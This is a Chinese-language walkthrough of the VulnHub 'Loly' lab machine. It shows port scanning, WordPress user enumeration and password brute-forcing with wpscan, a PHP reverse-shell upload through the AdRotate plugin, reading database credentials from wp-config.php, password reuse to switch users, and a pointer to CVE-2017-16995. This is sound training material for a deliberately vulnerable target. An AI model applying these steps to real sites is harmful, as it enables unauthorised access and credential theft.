

# Loly

> https://download.vulnhub.com/loly/Loly.ova

靶场IP：`192.168.2.136`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.136                                                                                                                                                                                               
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-06 09:55 EDT
Nmap scan report for 192.168.2.136
Host is up (0.00058s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
MAC Address: 00:0C:29:24:CB:0B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.22 seconds

```

浏览器访问80端口


爆破web目录


需要配置本地hosts


枚举wordpress用户

```
wpscan --url http://loly.lc/wordpress --enumerate u

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

爆破密码

```
wpscan --url http://loly.lc/wordpress --usernames loly --passwords /usr/share/wordlists/rockyou.txt
```

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                                                                                 
Trying loly / corazon Time: 00:00:01 <   
```


我看到我们安装了一个名为"AdRotate"的插件，我们可以在其中上传 zip 文件。

```
http://loly.lc/wordpress/wp-admin/admin.php?page=adrotate-media
```



```
┌──(root💀kali)-[/tmp]
└─# zip shell.zip php-reverse-shell.php 
  adding: php-reverse-shell.php (deflated 59%)

```


访问反弹shell

```
http://loly.lc/wordpress/wp-content/banners/shell.php
```

```
$ python3 -c "import pty;pty.spawn('/bin/bash')";
```

查看`wp-config.php`配置文件

```
www-data@ubuntu:~/html/wordpress$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

切换到loly用户

```
www-data@ubuntu:~/html/wordpress$ su loly
su loly
Password: lolyisabeautifulgirl

loly@ubuntu:/var/www/html/wordpress$ sudo -l
sudo -l
[sudo] password for loly: lolyisabeautifulgirl

Sorry, user loly may not run sudo on ubuntu.

```

使用CVE-2017-16995进行提权。
